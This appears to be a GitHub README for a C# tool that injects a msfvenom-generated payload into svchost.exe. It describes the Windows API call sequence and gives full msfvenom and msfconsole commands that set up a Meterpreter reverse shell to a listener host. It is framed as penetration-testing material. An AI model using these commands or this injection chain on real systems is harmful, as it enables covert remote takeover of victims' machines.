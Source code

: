 # Windows Code Injection in C#

This project is an example of code injection into a target process in Windows using C#. Code injection allows executing a payload in a running process, which can be useful in penetration testing and the development of security techniques.

## General Description

The code injects a payload (generated with `msfvenom`) into a target process (`svchost.exe`). It uses Windows API functions to:

1. **Create a new process**: The `CreateProcess` function is employed to launch a new process. In this case, the target process is `C:\Windows\System32\svchost.exe`.

2. **Allocate memory**: Once the process is created, `VirtualAllocEx` is used to allocate a block of memory in the process where the payload will be stored.

3. **Write the payload**: Using `WriteProcessMemory`, the payload code is written to the previously allocated memory. This allows the target process to execute the code we provided.

4. **Modify memory protection**: The `VirtualProtectEx` function is used to change the permissions of the allocated memory, allowing code execution (PAGE_EXECUTE_READWRITE).

5. **Create a remote thread**: A thread is generated in the target process using `CreateRemoteThread`, which is responsible for executing the payload in the allocated memory.

6. **Resume the thread**: Finally, `ResumeThread` is used to start the thread, activating the injected payload.

The workflow is set up so that after executing the code, the payload communicates with a Metasploit listener, allowing for remote interaction with the compromised system.

## Payload Generation

Before running the code, you need to create a payload to be injected into the process. Use the following command in Kali Linux:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.84.142 LPORT=443 EXITFUNC=thread -f csharp
```

## Payload Generation

Configure a listener in Metasploit before executing the program using the following command:

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set EXITFUNC thread;set LPORT 443;set LHOST 172.16.84.142;set ExitOnSession false; run -j -z"
```



